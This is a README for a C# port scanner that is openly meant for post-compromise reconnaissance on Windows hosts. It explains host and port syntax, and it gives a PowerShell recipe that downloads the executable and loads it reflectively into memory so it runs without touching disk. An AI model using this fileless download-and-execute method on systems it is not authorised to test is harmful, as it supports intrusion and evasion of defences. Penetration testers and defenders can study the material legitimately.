 # Platinum_portscanner
Platinum portscanner is a C# tool for scanning hosts and ports, it has basic port service detection based on the commonly ran service for a port number(always verify) and basic host OS guesses. It was created to mainly be used once insuide a windows host but still wanting a portscanner with easy syntax, speed and output. 
![image](https://user-images.githubusercontent.com/15575425/159026346-0ba8e068-88ad-4d16-906a-e5a6e761adfd.png)


## usage
Program comes with one main command at the moment with two required options. tcpscan /hosts (values) /ports (values) and an optional /nocheck to skip the host detection phase. Users can load it into memory with the below instructions similar to a powershell script and then perform fast, reliable and useful potscanning in memory of a compromised host. 

### the help menu
![image](https://user-images.githubusercontent.com/15575425/159027184-f9e6b874-6be7-47de-a184-57ae644752cc.png)


/hosts can be done in 3 ways 
- list like 127.0.0.1 127.0.0.2 127.0.0.3 etc.
- range like 127.0.0.1-100 or 127.0.0.100-255
- a cidr notation like 127.0.0.1\24 (atm only supports \24-\32 need to work updating for bigger sized cidr ranges)

/ports can be done in 3 ways
- a list like 80 22 53 8080 etc.
- a range like 1-1000
- also a custom top-50 option from the most common ports ive come across during engagements and labs

/nocheck has the option of yes that disables the host up check and just scans the whole of what the user enters like a whole \24 for the selected ports.

### speed and output ?
Platnium port scanner has so far been just as fast if not faster then nmap for host discovery and port scanning, while as not robust if the goal is just to find open ports and running hosts this program has the speed.
![image](https://user-images.githubusercontent.com/15575425/159028376-6ecfbb7c-642f-4afd-b652-4997853f182e.png)
this is a whole \24 check and 1k port scan. 

output is also tries to be clean and helpful
![image](https://user-images.githubusercontent.com/15575425/159028542-b1c54f16-b724-4b1a-b3ce-32dd73157185.png)


### In memory loading ?
1. "$data = (New-Object System.Net.WebClient).DownloadData('http://127.0.0.1:8081/Platinum_Portscanner.exe')"
2. "$assem =[System.Reflection.Assembly]::Load($data)"
3. "[Platinum_Portscanner.Program]::Main()"
** NOTE: the double quotes are just for formatting do not include when running command**

## features
- fast scanning time 
- verbose output
- in memory loading 

## disclaimer
I am not responsible for actions taken by users of Platinum portscanner. Platinum portscanner was released solely for educational and ethical purposes.
